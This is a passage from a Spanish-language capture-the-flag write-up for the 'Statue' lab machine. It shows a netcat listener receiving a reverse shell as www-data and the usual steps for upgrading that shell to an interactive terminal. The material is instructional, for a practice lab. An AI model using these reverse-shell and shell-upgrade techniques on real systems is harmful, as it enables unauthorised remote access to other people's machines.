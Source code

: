 <p align="center">
<img src="/assets/images/THL-writeup-statue/Captura16.png">
</p>

Vamos muy bien.

Ahora, abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Y solamente abre la **Reverse Shell** que se cargó y revisa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.100] 60200
Linux TheHackersLabs-Statue 6.8.0-41-generic #41-Ubuntu SMP PREEMPT_DYNAMIC Fri Aug  2 20:41:06 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:22:19 up 18 min,  0 user,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1031): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Statue:/$ whoami
whoami
www-data
```

Ya solamente, obtengamos una **shell interactiva**:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

```